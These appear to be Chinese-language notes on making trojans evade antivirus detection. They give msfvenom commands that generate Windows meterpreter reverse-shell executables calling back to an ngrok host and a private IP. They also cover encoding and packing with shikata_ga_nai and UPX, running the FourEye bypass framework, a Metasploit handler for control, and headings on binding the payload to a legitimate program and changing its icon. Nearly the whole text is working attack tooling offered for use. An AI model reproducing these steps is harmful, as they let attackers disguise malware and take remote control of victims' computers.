

#### vmprotect免杀

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ngrok2.xiaomiqiu.cn LPORT=378 -e x86/shikata_ga_nai -i 12 -f exe -o .exe
```




```
软件往里面一拖
点这个按钮，出来的软件就免杀了
```


```
这两个软件免杀，国内使用完全就没问题了
```


#### exe合并


```
git clone https://github.com/lengjibo/FourEye.git#下载
cd FourEye
pip install -r requirements.txt
python3 BypassFramework.py#打开

2.显示可生成的软件，list
3、选择shellcode，显示可选择的免杀方式
4、选择fibers免杀方式，加密方式选择xor，输入shellcode，选择平台的位数，execute运行
#注意：如果报错请安装mingw环境

apt-get install gcc-mingw-w64-x86-64 g++-mingw-w64-x86-64 wine64
```

```
#木马生成
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.16.102 LPORT=14444 -f exe -o usertest.exe
#加壳
使用
upx -5 usertest.exe


#use exploit/mutil/hander #用这个模块进行控制
```

绑定在正常exe

如何修改exe图标